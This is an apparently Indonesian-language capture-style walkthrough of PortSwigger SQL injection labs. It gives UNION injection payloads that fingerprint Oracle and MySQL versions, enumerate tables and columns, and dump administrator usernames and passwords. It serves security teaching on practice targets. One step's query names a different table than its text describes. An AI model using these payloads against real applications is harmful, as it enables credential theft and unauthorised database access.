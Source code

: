 8. Untuk menyelesaikan lab ini, kamu perlu login sebagai administrator dari data yang sudah kamu dapatkan.


**Serangan SQL Injection untuk Mendapatkan Versi Database Oracle**
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
PoC:
1. Cari tahu total kolom yang ada pada tabel produk tersebut. Pada database Oracle, semua SELECT harus diikuti dengan FROM, kita bisa gunakan tabel DUAL yang sudah builtin pada Oracle. `Gifts'+UNION+SELECT+NULL,NULL+FROM+DUAL+--+`
2. Cari tahu kolom mana yang kompatibel dengan tipe data string. `Gifts'+UNION+SELECT+'str1','str2'+FROM+DUAL+--+`
3. Ternyata kedua kolom tersebut kompatibel. Lakukan UNION attack untuk mengambil versi database tersebut. `Gifts' UNION+SELECT+BANNER,NULL+FROM+v$version+--+`


**Serangan SQL Injection untuk Mendapatkan Versi Database MySQL dan Microsoft**
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
PoC:
1. Cari tahu total kolom yang ada pada tabel produk tersebut. Pada database MySQL, setelah tanda komen (--) harus ada spasi (diencode menjadi +) `Gifts'+UNION+SELECT+NULL,NULL+--+`
2. Cari tahu kolom mana yang kompatibel dengan tipe data string. `Gifts'+UNION+SELECT+'str1','str2'+--+`
3. Ternyata kedua kolom tersebut kompatibel. Lakukan UNION attack untuk mengambil versi database tersebut. `Gifts'+UNION+SELECT+@@version,'str2'+--+`

**Menampilkan Seluruh Isi Database Non-Oracle**
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
PoC:
1. Untuk mencari tahu isi dari database non-Oracle, kamu bisa gunakan view information_schema.tables. `Gifts'+UNION+SELECT+TABLE_NAME,TABLE_TYPE+FROM+information_schema.tables+--+`
2. Terdapat beberapa tabel menarik di sana dengan tipe tabel `BASE TABLE`, yaitu pg_user_mapping dan users_crimvp.
3. Coba lihat kolom yang terdapat pada users_crimvp dengan menggunakan information_schema.columns. `Gifts'+UNION+SELECT+COLUMN_NAME,DATA_TYPE+FROM+information_schema.columns+WHERE+table_name='pg_user_mapping'+--+`
4. Terdapat kolom `password_csixaa` dan `username_qhqysj`
5. Cobalah lihat data dari kolom tersebut `Gifts'+UNION+SELECT+username_qhqysj,password_csixaa+FROM+users_crimvp+--+`
6. Kamu akan temukan akun administrator di sana. Untuk menyelesaikan lab, kamu perlu login sebagai administrator dengan username dan password yang sudah didapatkan.


**Eksploitasi SQL Injection pada Database Oracle**
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
PoC:
1. Untuk mencari tahu isi dari database Oracle, kamu bisa gunakan view `ALL_TABLES`. Gunakan kolom OWNER dan TABLE_NAME untuk mempermudah pencarian. `Gifts'+UNION+SELECT+owner,table_name+FROM+all_tables+--+`
2. Terdapat table menarik dengan pemilik system, yaitu USERS_HEWAIE.
3. Coba lihat kolom yang terdapat pada USERS_HEWAIE dengan menggunakan `ALL_TAB_COLUMNS`.  `Gifts'+UNION+SELECT+DATA_TYPE,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name='USERS_HEWAIE'+--+`
4. Kamu akan menemukan kolom USERNAME_HQPXSH dan PASSWORD_PCPYRS.
5. Lihatlah isi dari table tersebut. `Gifts'+UNION+SELECT+USERNAME_HQPXSH,PASSWORD_PCPYRS+FROM+USERS_HEWAIE+--+`
6. Untuk menyelesaikan lab ini, kamu perlu login sebagai administrator dari data yang sudah didapatkan.
